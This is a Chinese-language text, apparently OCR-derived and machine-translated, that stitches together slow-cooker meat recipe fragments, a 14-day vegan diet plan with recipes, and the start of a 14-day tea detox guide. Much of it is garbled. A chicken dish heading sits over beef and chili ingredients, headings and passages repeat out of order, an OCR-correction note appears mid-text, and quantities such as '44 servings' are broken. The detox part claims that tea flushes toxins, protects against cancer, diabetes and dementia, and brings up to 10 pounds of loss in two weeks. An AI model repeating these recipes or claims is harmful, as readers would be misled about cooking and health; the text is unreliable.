第 13 天的菜是黄金鸡肉面 (Golden Chicken with Noodles)。这道菜以其味道和制作的简单而闻名。因此，我们将这道菜包含在书中，以便你在没有时间准备良好的家庭晚餐时可以随时准备。这道菜非常浓郁且美味，会让你欲罢不能。

# 黄金鸡肉面

这道菜以其味道和制作的简单而闻名。因此，我们将这道菜包含在书中，以便你在没有时间准备良好的家庭晚餐时可以随时准备。这道菜非常浓郁且美味，会让你欲罢不能。（注：此处由于 OCR 错误存在重复，请遵循下文逻辑流）。

（根据提供的 OCR 片段修正的第 13 天流程）：
- 肩肉：4 磅
- 蘑菇汤：1 罐
- 土豆汤：2 罐
- 洋葱汤调料包：1 包
- 博士可乐：2 杯
- 奶油风味调料：约 1 茶匙

- 番茄酱：8 盎司
- 盐：半茶匙
- 孜然粉：1 汤匙
- 牛至香：1 茶匙
- 辣椒粉：1 或 2 汤匙
- 烟熏辣椒塔巴斯烤酱：1 汤匙
- 红豆和斑豆：各 1 罐或各 14 盎司
- 玉米粉：1/4 杯
- 水：半杯
- 弗里托玉米片：1 包

- 炖肉用：2 磅，切块
- 大蒜：1 瓣，应切末
- 切片洋葱：1 个
- 伍斯特酱汁：2 汤匙
- 番茄酱：半杯
- 红辣椒粉和盐：各 2 茶匙
- 红糖：1 汤匙
- 水：1 杯
- 面粉：半杯
- 芥末粉：半茶匙

# 方法：

方法极其简单。你只需要在慢炖锅中混合所有食材，然后忘记晚餐 6 到 8 小时。慢炖锅将低火烹饪，在你忙碌了一天回到家里后，它将为你带来一道令人垂涎的菜。

# 第 13 天

第 13 天的菜是黄金鸡肉面。这道菜以其味道和制作的简单而闻名。因此，我们将这道菜包含在书中，以便你在没有时间准备良好的家庭晚餐时可以随时准备。这道菜非常浓郁且美味，会让你欲罢不能。

# 第 14 天

对于第 12 天，我们有一个最简单的食谱。这个食谱从字面上来说是“倒进去就走”，因为你只需要将所有食材倒入慢炖锅中，用低火煮 6 到 8 小时。这道菜不仅制作简单，味道也非常吸引人。你也会喜欢它提供的风味，尽管它是在慢炖锅中烹饪的。这道菜是一道简单的烤牛肉，让你欲罢不能。

# 烤牛肉

这个烤牛肉食谱以其味道好和易于烹饪而闻名。完成后，它会为你提供大量的肉汁，所以不要期望这道菜是完全干燥无味的。你也可以搭配土豆泥一起享，因为土豆会进一步增强这道菜的味道。以下是制作这道菜所需的原料：

- 肩肉：4 磅
- 蘑菇汤：1 罐
- 土豆汤：2 罐
- 洋葱汤调料包：1 包
- 博士可乐：2 杯
- 奶油风味调料：约 1 茶匙

# 方法：

方法极其简单。你只需要在慢炖锅中混合所有食材，然后忘记晚餐 6 到 8 小时。慢炖锅将低火烹饪，在你忙碌了一天回到家里后，它将为你带来一道令人垂涎的菜。

# 第 13 天

第 13 天的菜是黄金鸡肉面。这道菜以其味道和制作的简单而闻名。因此，我们将这道菜包含在书中，以便你在没有时间准备良好的家庭晚餐时可以随时准备。这道菜非常浓郁且美味，会让你欲罢不能。

# 14天素食饮食计划

仅需14天即可减肥并改善你的健康

关于我最喜爱的饮食的额外信息

此外在 KindleBookSpot.com 还有更多免费和廉价书籍

## 目录

引言

第一章：转为素食的益处

第二章：开始素食饮食

第三章：饮食计划（14天指南）

第四章：早餐食谱

第五章：午餐食谱

第六章：晚餐食谱

第七章：零食与开胃菜

结论

## 引言

我想感谢你的下载，并祝贺你下载了《14天素食饮食计划——仅需14天即可减肥并改善你的健康》这本书。

为什么当大多数人想到健康和健身时，他们的第一直觉是感到沮丧，并表现得好像这个想法根本不存在一样？诚然，我们不能都成为健身专家，但如果你真的认真想要恢复体形并感觉更好，有一些技巧可以帮助你为了一直渴望的体体而努力。无论是减肥还是获得更多精力，采用素食饮食都是一个极佳的开始。

虽然随着年龄的增长，身体自然的能量水平会变慢，但这并不意味着你应该放弃健康目标。无论你处于人生的哪个阶段，你仍然可以做很多来改善你的生理和心理健康，而阅读这本书是通往你一直想要的生活的第一步。

这本书旨在教你如何利用植物性食物开始一种更健康、更绿色的生活方式。这并不是为了成为帮助你快速减肥并感觉更健康的时尚风潮，但它应该鼓励你使用素食食品做出更健康的生活选择，并在过程中重塑你的生活方式。

书中包含了关于如何享受素食饮食的证明步骤和策略，同时还能品尝各种美味的菜肴。这本书还将向你展示如何：

- 从零制作各种美味的菜肴
- 享受素食饮食
- 为你的新饮食进行购物，确保你备了所需的一切
- 从你的饮食中获得大量营养

以及更多内容！

所以，你还在等什么？现在就开始阅读，并从今天起改变你的生活方式吧！

感谢你下载这本书，我希望你喜欢它！

别忘了在底部查看我最喜爱的饮食之一，并学习我如何通过“3周饮食”快速减掉顽固的多余脂肪的策略。

# 第一章：转为素食的益处

许多人现在决定通过纯素饮食给自己的生活带来巨大的改变。虽然转为素食对其他人来说似乎有些局限性，但这种饮食方式实际上是非常多样化且营养丰富的。

转为素食的好消息是，它有很多益处，其中一些你可能甚至不知道：

### 对你的健康非常有益

人们决定成为素食主义者的许多原因之一是因为它对你的健康非常有好处。素食饮食是以植物为基础的，我们都知道植物对我们非常有益。低脂肪、富含多种维生素矿物质以及蛋白质的饮食是保持我们健康的关键。

此外，素食饮食可以帮助你免受多种疾病和状况，例如：心脏病、癌症、肥胖、糖尿病等。越来越多的人决定转为素食也难怪！

### 对动物非常有益

我们都见过动物仅仅因为我们想吃肉而必须遭受的不必要的痛苦。成为素食主义者是你对痛苦说“不”的方式。当你不再购买肉类时，你会影响当地和国际的肉类生产，这意味着为了餐桌而宰杀的动物减少了。

### 对环境非常有益

很多人不知道素食生活方式实际上对环境非常有益。这是因为有助于降低与饲养动物相关的碳足迹，以及肉类带来的包装。

你知道吗，如果世界上的一半的人成为素食主义者，挨饿的人就会减少？这是因为牛和其他动物需要大量的土地来放牧。如果世界上一半的人成为素食主义者，那么肉牛所需的土地就会减少。这意味着这些土地可以用于种植作物。通常，一片农田养活的人比一片牛场多得多。此外，如果你喜欢植物性饮食，那么食物通常会变得更加便宜，因为周围会有更多的食物。

正如你所见，转为素食有很多益处。你不仅可以帮助确保每个人都有更多的食物，你还将拥有更多精力、更好的皮肤，而且通常也会健康得多。因此，越来越多的人采用素食生活方式也难怪。

你可能计划只坚持14天素食来帮助你排毒，并从现有的各种素食友好食品中获益。如果是这样的话，你还不需要考虑长期坚持素食，除非你完全确定这是你想做的事情。我想鼓励你完全素食化。如果由于某种原因你无法做到这一点，那么为什么不考虑每个月至少坚持一周素食呢，因为你会感受到这种益处，环境也是如此。

# 第二章：开始素食饮食

开始一种新饮食并不容易，但只要付出一点努力，你就可以享受它。无论你开始哪种类型的饮食，你都需要共同努力寻找新食物，并在遇到小困难时坚持下去。

好消息是，你可以让自己转变为素食饮食变得容易得多。只要花一点时间和一点努力，你很快就会发现自己已经很享受素食饮食，并开始因此而感觉更好。

### 不要假设这会很轻松

遗憾的是，任何剧烈的饮食改变都不会是容易，但只要有一点意志力，你就可以完全素食化，或者确保你完好无损地完成14天素食计划。在旅程中可能会犯一些错误，包括发现你吃的食物含有奶酪、肉类或其他产品。这种情况会偶尔发生，但不要惊慌，继续吃素食食品，并尽力防止它再次发生。

### 弄清楚你可以吃和不能吃什么

起初，你可能会觉得你的饮食非常受限，但事实是，它的局限性完全取决于你的想象。当我第一次成为素食主义者时，我以为会非常挣扎，但事实是外面的食物比你想的要得多。

弄清楚你可以吃什么，并考虑那些你需要避开的食物。这需要一些时间来适应，但你会习惯的。当我成为素食主义者时，我会列出可以享受的食物，以及我需要远离的食物。过了一段时间，我就不再需要看列表了。

### 了解有哪些肉类和奶制品替代品

好消息是，有很多美味的替代品。从当地的健康食品店到当地超市，几乎到处都有素食友好食品。

你会有一些你喜欢的食物，也有一些你讨厌的，但这都是尝试出来的。找出你喜欢的素食食品，避开你真正不喜欢的。强迫自己吃难吃的东西对你没有任何好处。吃你喜欢的食物，你更有可能坚持下去。

### 了解你可以从哪里采购你的食物

正如我上面提到的，你可以从健康商店和超市采购食物。你也可以在网上、甚至在专业商店或活动中找到素食食品。获取所需食物越容易，你发现素食生活就越容易。

### 邀请某人加入你的旅程

即使你只计划素食14天，理想情况下也应该邀请某人加入你的旅程。这是因为这会让你的旅程变得容易得多。你们可以交流心得，讨论你们的挣扎。你们还可以推荐烹饪方法，以及你们应该和不应该避免什么。

### 偶尔奖励自己

偶尔奖励自己是保持高动力水平的最佳方式。你给自己的奖励类型完全取决于你，但它不应该是影响你素食饮食成功的奖励。

为自己设定一个目标（例如完成14天素食饮食计划），并奖励自己。

## 学习从零开始烹饪美味佳

因为世界上有这么多美味佳肴等你去尝试，如果你不学习从零开始烹饪，你将会错过很多。虽然有预包装的素食餐，但它们通常很贵，而且营养可能无法达到你的预期。

学习从零开始烹饪，享受创造那些为身体提供所需营养的美味美食。

## 购物指南

并不是每个人都完全清楚素食主义者吃什么，他们很大程度上认为我们只吃蔬菜、豆类和豆腐，但事实是，我们的饮食是非常丰富的。

### 琼胶：
如果你制作的菜肴需要明胶，请使用海琼胶代替，因为它是理想的替代品。

### 豆类：
豆类是蛋白质的极佳来源，它们味道很好，而且可以肉类的口感。购买并使用各种豆类，并将它们作为饮食的一部分。请确保如果你购买的是制制或预包装的豆类，它们仍然符合素食标准。

### 糙米：
糙米的营养比白米高得多，所以请使用这种。

### 类似黄油的抹酱：
非氢化抹酱。

### 小米粉：
如果可以，请选择全麦小米粉，因为它比普通品种营养丰富得多。

### 无奶奶士：
你现在可以买到许多不同品牌和口味的无奶奶士。有片装（类似奶油奶士的质地）、碎状或调味的，你没有任何理由觉得自己错过了奶酪。

### 鸡蛋替代品：
鸡蛋替代品是一个很好的选择，味道也很不错。你可以购买素食蛋黄，但它们很难找到，所以你可能需要坚持使用干替代品。

### 水果和蔬菜：
素食饮食可以包含你喜欢的任何水果蔬菜。只需确保你购买的加工水果蔬菜是素食的。

### 奶：
- 杏仁奶
- 米乳
- 大麻奶
- 豆奶

### 营养母：
营养母用于赋予食物类似奶酪的口感。它不含胆醇，非常适合用于奶酪味酱汁。

### 坚果：
坚果的蛋白质含量极高，可以加入各种菜肴中，也可以单独食用。如果你想念肉类的味道和口感，我推荐吃栗子，因为它们的口感非常有肉感。

### 面条：
面条有各种形状和大小，它是只需少量原料就能做成一餐的食物之一。如果你想更健康，请选择全麦或多谷面条。

### 藜麦：
藜麦的味道并不完美，但它的蛋白质含量也很高，可以加入各种菜肴中。

### 面筋：
这种由小麦面筋制成，可以煎或烤。面筋是蛋白质的极佳来源，如果你想让你的菜肴更有嚼劲，它也很棒。

### 豆奶：
大豆奶有不同的口味，可以是一种真正的享受。

### 天贝：
这是一种基于豆豉的肉类替代品，质地很厚且带有咸鲜的味道。它非常适合烧烤。

### 豆腐：
豆腐可以加入各种菜肴中，由豆脂制成。它最好作为吸收其他食材味道的方法。

### 蔬菜汉堡：
蔬菜汉堡可以是肉类汉堡的美味且营养丰富的替代品。问题是，蔬菜汉堡也可能高脂肪，所以买入前请务必检查脂肪含量。

还有许多其他素食友好食品，但如果我把它们全部列出来，清单将无止尽。你越深入素食世界，就会发现越多的食材和食物。不要害怕在互联网和当地商店搜索其他食材，因为你可能会发现非常特别的东西。

## 关键食物和食材

看看我提到的营养素以及含有这些营养素的食物。这将帮助你完善购物清单，让你最终能享用到各种美味且营养丰富的食物：

*请注意，还有许多其他你可以吃的食物，但下面的列表显示了那些特别营养丰富的食物。*

### 钙：
- 杏仁
- 亚麻籽
- 大豆
- 西兰花
- 羽衣蓝
- 葵花籽
- 鹰嘴豆
- 扁豆
- 天贝
- 榛果
- 红豆
- 含有硫酸钙的豆腐
- 强化早餐麦片
- 海军豆（内卡豆）
- 强化非奶奶
- 秋瓜
- 强化非奶酸奶
- 橙子
- 强化橙汁
- 斑豆
- 强化豆制品
- 开心果
- 无花果
- 芝麻

### 铁：
- 鹰嘴豆
- 海军豆（内卡豆）
- 强化蔬菜汉堡
- 斑豆
- 强化豆制品
- 藜麦
- 枸杞
- 葡萄
- 红豆
- 大豆
- 扁豆
- 豆腐

### Omega 3：
- 亚麻籽油
- 磨亚麻籽

### 蛋白质：
- 豆类
- 天贝
- 扁豆
- 豆腐
- 坚果
- 蔬菜
- 种子

### 维生素 B12：
- 营养母
- 非奶奶
- 强化早餐麦片
- 素食维生素B12补充剂
- 强化食品

### 维生素 D：
- 素食维生素D补充剂

## 第三章：饮食计划（14天指南）

为了从你的饮食计划中获得最大的收益，你可能想考虑给自己一点优势。如果你想通过通过素食来减肥并改善健康，请查看我在下面编写的建议：

## 水
保持水分充足非常重要，它不仅确保你的身体不会缺乏液体，在其他方面也是至关重要的。喝足够的水会让你感到压力较小，它帮助排出毒素，你的皮肤也会因此变好很多。不可置信的是，充足的水还能帮助你减肥，并在晚上睡得更好。你没有理由不每天喝8杯水。

## 运动
如果你想保持身材，运动是至关重要的，得益于素食饮食，你会有更多的精力，你会更倾向于运动。不要假设因为你不摄入肉类和乳制品就不能运动。如果素食健身运动员可以在不吃肉的情况下运动，你也可以。

## 进餐时间
进餐时间应该是有规律的，你永远不要跳过餐，即使你不觉得饥饿。总是吃点东西，因为它会带动你的代谢运行起来，这意味着你更有可能减肥。

另一个重要的注意点是，你永远不要跳过早餐。不吃早餐的人更容易胖。这是因为早餐让你的代谢开始工作，并提供你所需的能量。

下面你将找到一份关于在14天素食计划期间你应该考虑吃的食物的指南。这份指南仅供建议，你可能会发现自己更偏好吃其他食物。

看看下面的计划，如果你愿意，可以根据你的需求和口味进行调整。你应该做的最重要的事情之一是享受素食饮食，因为你可能会更成功。

*请注意，某些菜肴的食谱可以在下一章找到。

## 第一天
早餐：强化早餐麦片或芒果椰子奶昔
点心：花生酱核桃块
午餐：鹰嘴豆沙拉
点心：一份水果或素食酸奶
晚餐：鹰嘴豆菠菜咖

## 第二天
早餐：强化早餐麦片或蘑菇番茄饼
点心：水果
午餐：日式面
点心：一份水果或素食酸奶
晚餐：扁豆千层面

## 第三天
早餐：强化早餐麦片或加麦片的素食酸奶
点心：混合果
午餐：菠菜沙拉
点心：一份水果或素食酸奶
晚餐：喜欢的食物（奖励自己）

## 第四天
早餐：强化早餐麦片或涂素食奶油的贝果
点心：水果奶昔
午餐：墨西哥沙拉
点心：一份水果或素食酸奶
晚餐：配有素食蛋和沙拉的烤土豆

## 第五天
早餐：强化早餐麦片或炒豆腐
点心：杏仁蛋白棒
午餐：椰奶豆汤
点心：一份水果或素食酸奶
晚餐：酿馅的甜椒

## 第六天
早餐：强化早餐麦片或素食法式吐司
点心：种子混合
午餐：酸子味豆腐
点心：一份水果或素食酸奶
晚餐：蔬菜汉堡配沙拉

## 第七天
早餐：强化早餐麦片或加水果的非奶酸奶
点心：一个苹果或橙子

午餐：配有蔬菜的烤豆薯

加餐：一个水果或素食酸奶

晚餐：快速蔬菜意面

## 第八天

早餐：强化早餐谷物或芒果椰子奶昔

加餐：花生酱碧桃仁坚果能量球（能量球）

午餐：鹰嘴豆沙拉

加餐：一个水果或素食酸奶

晚餐：鹰嘴豆菠菜咖

## 第九天

早餐：强化早餐谷物或蘑菇番茄煎饼

加餐：水果

午餐：日式面

加餐：一个水果或素食酸奶

晚餐：扁豆千层面

## 第十天

早餐：强化早餐谷物或配藜麦片的素食酸奶

加餐：零食混合包

午餐：菠菜沙拉

加餐：一个水果或素食酸奶

晚餐：你喜欢的任何食物（犒劳自己）

## 第十一天

早餐：强化早餐谷物或配素食友好奶油奶酪的贝果包

加餐：水果奶昔

午餐：墨西哥沙拉

加餐：一个水果或素食酸奶

晚餐：配素食友好鸡蛋和沙拉的烤豆薯

## 第十二天

早餐：强化早餐谷物或炒豆腐

加餐：杏桃蛋白棒

午餐：椰子豆汤

加餐：一个水果或素食酸奶

晚餐：酿料大甜椒

## 第十三天

早餐：强化早餐谷物或素食友好法式吐司

加餐：种子混合

午餐：酸角豆豆腐

加餐：一个水果或素食酸奶

晚餐：配沙拉蔬菜汉堡

## 第十四天

早餐：强化早餐谷物或配水果非乳酸奶

加餐：一个苹果或橙子

午餐：配有蔬菜的烤豆薯

加餐：一个水果或素食酸奶

晚餐：快速蔬菜意面

这14天素食计划是一个非常健康且可持续的计划，可以帮助你改善健康状况，提供更多能量并帮助你减肥。该计划经过专门设计，以确保你在享受均衡美味饮食的同时，对环境的影响也降至最低。该计划还允许你不吃肉类和乳制品，同时不会错过那些不符合伦理的食物。

## 第4章：早餐食谱

### 芒果椰子奶昔

食材：

- 200 ml 无乳椰子奶
- 1根香蕉
- 1汤匙磨碎亚麻籽
- 4汤匙素食友好酸奶
- 1汤匙葵花籽
- 1汤匙南瓜子
- 120 克冷冻或冷藏芒果块

方法：

将所有食材放入奶昔机或搅拌机中，搅拌至光滑。光滑后，倒入杯中享用。

### 蘑菇番茄煎饼

食材：（可做8份）

- 140 克 自筋面粉
- 400 ml 豆奶
- 一小撮盐
- 1茶匙豆粉
- 2汤匙植物油
- 250 克 小蘑菇
- 2汤匙 豆奶或奶油
- 250 克 对半的小的小番茄
- 一小撮松子

方法：

筛出所有面粉并放入搅拌机中，然后加入牛奶。搅拌至混合物光滑。现在将大约3汤匙混合物倒入煎锅中，煎至混合物产生气泡。现在是时候翻面混合物，煎另一面，直到呈现出诱人的金黄色。

待混合物变褐色后，取出放在盘子里。现在对剩余混合物重复此操作。

在煎饼冷却期间，将蘑菇放入煎锅中，煎至变软。现在加入番茄并煎制约2分钟。加入豆奶或奶油以及松子，用小火煮至食材融合。

取两个盘子，每只放4个煎饼，顶部铺上蘑菇和番茄，即可享用。

### 素食友好法式吐司

食材：（供3人食用）

- 2汤匙 面粉
- 1杯 豆奶
- 1汤匙 营养酵母
- 1茶匙 香草精
- 1茶匙 糖
- 6片 全粒全麦面包
- 一小撮肉豆蔻

方法：

除面包外，将所有食材加入碗中并混合均匀。现在将面包浸入混合物中直到裹匀。取一个平底锅或煎锅，将浸过的水的面煎至一面变金黄色，然后翻面重复此动作。享用。

### 炒豆腐

食材：（供3人食用）

- 2茶匙 橄榄油
- 16盎司 洗净并切块的豆腐
- 半茶匙 干燥洋葱
- 3汤匙 营养酵母片
- 一小撮 蘑菇
- 1个切片的小洋葱
- 1瓣 大蒜
- 1.半汤匙 酱油
- 磨白胡椒

方法：

在平底锅中中火烹饪豆腐，不断搅拌至金黄色。加入洋葱和酵母，搅拌至豆腐均匀裹匀。现在加入橄榄油、蘑菇、洋葱和大蒜，烹饪至蘑菇变软。现在撒上酱油和白胡椒，搅拌至所有液体被吸收。即可享用。

## 第5章：午餐食谱

### 鹰嘴豆沙拉

食材：（供5-6人食用）

- 200 克熟布格麦
- 1根切丁的韭葱
- 50 克 松子
- 2个柠檬的汁
- 3汤匙 橄榄油
- 400 克 鹰嘴豆
- 50 克 葡萄干
- 4汤匙 欧芹
- 一小把 生菜叶和红甜椒
- 1根切碎的芹芹
- 1个切碎的萝卜

方法：

轻地烘烤松子直到其呈金黄色，然后将所有食材在碗中混合。根据个人喜好调味，即可享用。

### 日式面

食材：（供2人食用）

- 200 克 荞面
- 1个 切薄片的红甜椒
- 100 克 荷兰扁豆
- 2汤匙 水
- 2茶匙 烤芝麻粒
- 半个切开的黄瓜
- 2汤匙 酱油
- 2汤匙 米醋
- 2汤匙 芝麻酱
- 1汤匙 糖

方法：

将水和芝麻酱混合，然后加入酱油并搅拌。现在加入醋和糖并再次搅拌，放在一旁。

煮好面条并分盛在两个盘子或碗中。加入荷兰扁豆、黄瓜和辣椒，然后淋上酱料。在顶部撒上芝麻，即可享用。

### 菠菜沙拉

食材：（供4-5人食用）

- 2汤匙 米醋
- 2汤匙 橄榄油
- 1汤匙 烤芝麻油
- 2汤匙 鲜橙汁
- 1瓣 大蒜
- 1汤匙 糖蜜
- 四/4汤匙 熏红椒粉
- 2个 切的小甜椒
- 半个洋葱
- 一把 切好的菠菜
- 半个橙
- 装饰用芝麻

方法：

将米醋、橄榄油、橙汁、糖蜜、熏红椒粉和大蒜放入搅拌机，搅拌融合。放在一旁，然后将洋葱、菠菜、橙片放入大碗中混合。

现在将芝麻酱淋在食材上，撒上芝麻。

### 墨西哥沙拉

食材：（供4人食用）

- 1茶匙 墨西哥调料
- 3个切碎的面粉饼
- 1汤匙 橄榄油
- 1把 碎冰生菜
- 200 克 对半的小番茄
- 400 克 沥水的豆
- 1个 柠檬的汁
- 2个 去皮并切片的鳄果
- 一把 香菜叶

方法：

将饼皮块放入烤盘中，加入墨西哥调料和橄榄油。在200度下烤约10分钟，直到饼皮变得酥脆。

现在将豆类、生菜和番茄放入碗中，加入柠檬汁和鳄果拌匀。

待饼皮做好，将它们放入碗中并加入剩余食材，再次搅拌。即可享用。

### 椰子豆汤

食材：（供4人食用）

- 半把切开的青葱（绿叶和白色分开）
- 1汤匙 葵花油
- 1个切丁的红甜椒
- 1茶匙 干燥百香
- 1瓣 切碎的大蒜
- 1个压成泥状的辣椒
- 2个 柠檬的汁
- 1茶匙 辣椒辣椒
- 1茶匙 咖喱粉
- 800 克 椰子奶
- 3个 切碎的西女番茄
- 1块 蔬菜高块
- 410 克 红豆
- 410 克 黑眼豆
- 410 克 斑豆

方法：

将葵花油加入锅中，然后加入红椒、青葱的白色部分、大蒜和辣椒泥。烹饪约5分钟直到食材变软。加入香料、百香和咖喱粉，再烹饪1分钟。加入番茄，煎制2分钟。

现在将蔬菜高块加入锅中，然后加入椰子奶和所有的豆。小火煮约10分钟。离火，并加入

青柠汁和大部分葱菜叶。

将汤分装碗中，加入剩下的葱菜。即可享用。

## 酸子焖豆腐

配料：（44 人份）

- 2 汤匙素食人黄油
- 2 包豆腐
- 2 个切碎的小洋葱
- 盐和胡椒调味
- 2 瓣切末的大蒜
- 3 个切碎的番茄
- 1/4 杯水
- 1/4 杯番茄酱
- 2 汤匙红糖
- 2 汤匙芥末
- 3 汤匙糖蜜
- 1 茶匙辣椒粉
- 2 汤匙酸子浓缩汁
- 1 汤匙辣椒粉
- 1 汤匙酱油

方法：

将每包豆腐切成四份并调味后备用一旁。现在在煎锅中加入黄油，用中大火加热。加入大蒜和洋葱，翻炒约 2 分钟。现在加入除豆腐以外的所有剩余食材，煮约 15 分钟。

15 分钟后，将所有食材放入搅拌机中，搅拌至混合物光滑。现在将食材放回煎锅中，继续煮 15 分钟，然后放凉。

将混合物淋在豆腐上，然后将豆腐放入冰箱冷藏约 3 小时。3 小时后（如果你愿意，可以延长腌制豆腐的时间），从腌料中取出豆腐，双面煎烤直到豆腐表面出现烤痕。现在在豆腐双面刷上酸子汁，即可享用。

# 第 6 章：晚餐食谱

### 嘴豆菠菜咖喱

配料：（6 人份）

- 2 瓣切碎的大蒜
- 100 克菠菜叶
- 1 个头切碎的洋葱
- 6 个番茄
- 半茶匙油
- 1 1/4 英寸擦末的姜
- 1 茶匙磨孜然粉
- 1 茶匙姜黄粉
- 2 茶匙磨香菜粉
- 1 个头切碎的西兰花
- 1 茶匙酵母提取物
- 一小撮辣椒片
- 4 汤匙红扁豆
- 400 克嘴豆
- 6 汤匙椰奶
- 1 个切半的柠檬
- 1 汤匙切碎的腰果
- 1 汤匙烤芝麻粒

方法：

将大蒜、洋葱、番茄和姜放入搅拌机中，快速打成泥状。

现在用大锅煎炒所有香料 2-3 秒，然后加入酵母提取物和蔬菜泥。煮至食材冒泡，然后加入椰奶和扁豆。煮至软烂，加入西兰花，再煮 4 分钟。现在加入菠菜和嘴豆，搅拌均匀。挤入柠檬汁，加入腰果和芝麻粒，再次搅拌。即可享用。

## 扁豆千层面

配料：（4 人份）

- 1 根切碎的芹芹
- 1 汤匙橄榄油
- 1 根切碎的胡萝卜
- 1 个头切碎的洋葱
- 1 瓣压碎的大蒜
- 1 汤匙玉米粉
- 800 克扁豆
- 2 个头切碎的菜花
- 1 茶匙蘑菇酱
- 1 茶匙干的牛至草
- 2 汤匙豆奶
- 1 茶匙蔬菜高汤粉
- 9 片无蛋干制千层面片
- 一小撮肉豆粉

方法：

将油、胡萝卜、洋葱和芹芹放入锅中烹煮约 15 分钟，直到蔬菜变软。现在加入大蒜煮 2 分钟，然后拌入玉米粉和扁豆。加入 2 杯水、蘑菇酱、番茄、高汤粉和牛至草，小火慢煮 15 分钟。

在煮上述食材时，另取一个锅煮菜花约 10 分钟使其变软。滤掉水分，加入豆奶和在搅拌机中出的泥。现在加入肉豆粉，搅拌均匀，将扁豆混合物放入烤盘（20 x 30 cm）并覆盖一层千层面。再加一些扁豆混合物、一些泥，再加一些千层面，持续进行直到有 3 层扁豆混合物、千层面片和泥。

放入烤箱中盖盖烤约 45 分钟，即可享用。

## 酿料彩甜椒

配料：（2 人份）

- 1/4 杯切丁的洋葱
- 2 个切丁的干番茄
- 1 杯水
- 1 杯罐装番茄
- 2 个去籽甜椒
- 1 块蔬菜高汤块
- 3/4 杯 糙米
- 1/2 杯红酒
- 2 瓣切半的大蒜瓣
- 1 杯蔬菜素肉蛋白

方法：

将干番茄、大蒜和洋葱加入锅中，用中大火煎直到番茄变软。然后加入汤块和罐装番茄，小火煮 15 分钟。

加入番茄、酒和米饭煮至米饭熟。加入素肉蛋白，搅拌，离火并取出大蒜。将混合物加入甜椒并在锅中烹饪，用酱汁覆盖。煮至甜椒变软。

## 快速意面

配料：（5 人份）

- 4 盎司未煮意面
- 喜好的蔬菜
- 3 茶匙混合香草
- 盐和胡椒调味
- 3 汤匙橄榄油

方法：

预热烤箱至 200°C。切碎并混合蔬菜，加入橄榄油并搅拌。现在撒上香草并调味。将蔬菜放入盘中烹饪约 30 分钟。

# 为什么你的生活中需要抗氧化剂

除了茶饮排毒法，如何通过饮水、运动和健康饮食来帮助减重

你应该避免什么

如何从零开始制作你自己的茶

以及更多内容！

所以你还在等什么呢？就开始阅读，并从今天开始改变你的生活方式吧！

感谢你下载这本书，希望你喜欢它！

别忘了查看我最喜欢的饮食法之一，并学习我通过底部的“三周饮食”快速减掉顽固多余脂肪的策略。

## 第一章：茶的健康益处

## 什么是茶饮排毒？

茶饮排毒是一种特殊的排毒计划，通过帮助你利用茶的排毒能力来帮助减肥。我们的生活方式可能没有那么健康，由于我们摄入的食物以及呼吸的空气，化学物质会在体内积累。

茶饮排毒可以通过将它们排出系统来帮助消除积累的化学物质和其他毒素。理想情况下，我们应该每个月进行一次排毒，但并不总是那么容易，我们并不总是有足够的时间投入到计划中。好消息是，14天茶饮排毒计划并不长，而且相对容易执行。

这项计划要求你喝绿茶，以及其他不仅具有排毒功效而且具有其他健康益处的茶。使用这项计划可以帮助你在短短14天内减轻多达10磅，而不需要忍饥。事实上，我们积极鼓励你继续进食，只需确保你享受健康的均衡饮食，并进行大量的运动。

## 消除毒素

茶饮排毒的主要益处之一是它可以帮助消除毒素。毒素在我们察觉不到的情况下会在体内积累，它们对我们健康的负面影响是而周知知的。癌症和其他疾病可能是由毒素积累引起的。为了清除由于摄入的加工食品、呼吸的空气和吸烟的烟草引起的毒素，你应该考虑喝排毒茶。

具有神奇排毒功能的茶可以帮助你对抗癌症、糖尿病、痴呆症和心脏病。人们认为，胆固醇高的人也可能从喝茶中受益，因为可能会降低胆固醇水平。

## 每日饮茶

每天喝排毒茶可以帮助你排出那些可怕的毒素，同时促进减肥。理想情况下，你应该在早餐前或随早餐喝一杯茶，午餐前或随午餐喝一杯，晚上进食时再次饮用。

如你所见，这个计划对你喝什么特别关注，而对吃什么关注较少。这是因为喝“正确”的液体对你的健康和体重有巨大影响。

令人难以的是，许多人无法理解饥饿和渴之间的区别。这就是为什么我们鼓励你在感到饥饿时喝水，因为这种变化是你的身体想要消耗液体，而不是食物。这个小小的改变会对你的体重产生巨大影响，因为你摄入的热量会更少。

这并不是说你应该大幅减少食物摄入。你应该对吃什么以及吃多少保持理智，但你可能想在吃东西之前喝一些茶，如果你发现仍然饿，再去吃点东西。

## 喝充足的水

喝充足的水是茶饮排毒计划不可或缺的一部分。无论如何，我们都应该喝更多水，但现在尤为重要。每天喝八杯水。水是帮助排出那些可怕毒素的理想选择，它还可以帮助减轻压力并促进良好的睡眠。此外，如果你有便秘，喝水可以帮助缓解这个问题。

确保每天摄入足够水的一种极好方法是在身边或附近放一杯水，这样你就可以方便地拿到它。

## 茶的益处

我们已经提到了茶饮排毒计划的一些益处，但你可能想知道还有很多。

- 使用这项计划不仅可以帮助你在14天内减轻多达10磅，还可以：
- - 让你重新补充水分
- 帮助增强你的免疫系统，让你不容易感染感冒和流感
- 被认为有助于预防阿尔茨海默病和其他神经系统及退行性疾病
- 提高你的代谢，这意味着你会更快地燃烧脂肪和卡路里
- 得益于额外摄入的液体，降低你的压力水平
- 增加你的能量水平
-由于茶的利尿特性以及你额外喝的液体，促进肠胃活动
- 强化你的牙釉质并防止口臭
- 让你不易患尿路感染
- 你可以享受一些美味的茶，它们可以为你的一天增添一些特别的味道

## 第二章：开始茶饮排毒

开始茶饮排毒可能不像你被引导的那么简单。这毕竟是一个需要大量投入的清洁计划。

如果你不习惯摄入大量液体，可能会发现这个计划颇具挑战性。不要担心！我总结了一些有用的小贴士，可以让你的茶排毒之旅变得轻松一点。

### 有用的小贴士：

### 什么时候喝茶

理想情况下，你应该在早餐前或随早餐喝一杯茶，午餐前或随午餐喝一杯，晚上进食时再次饮用。对你来说，喝比习惯多多的液体可能很难，所以请确保你只喝你喜欢的茶。这将确保你坚持计划，反过来意味着你可能会减轻多达10磅。

### 我该泡茶？

面对现实吧，并不是每个人都是茶爱好者。我们并不都懂得如何泡一杯完美的茶，甚至是一杯好喝的茶。但别担心，这非常简单，过一段时间后它就会变成本能。

将两克你选择的放入滤器中，并将滤器放入杯中。或者，在杯中放入一个茶包。

倒入一些沸水，几乎满满杯。

让茶叶或茶包浸泡三到五分钟。

从杯中取出滤器或茶包。

如果需要，根据口味加入少许蜂蜜或柠檬。

热喝或冷用享受茶。

### 与朋友一起排毒

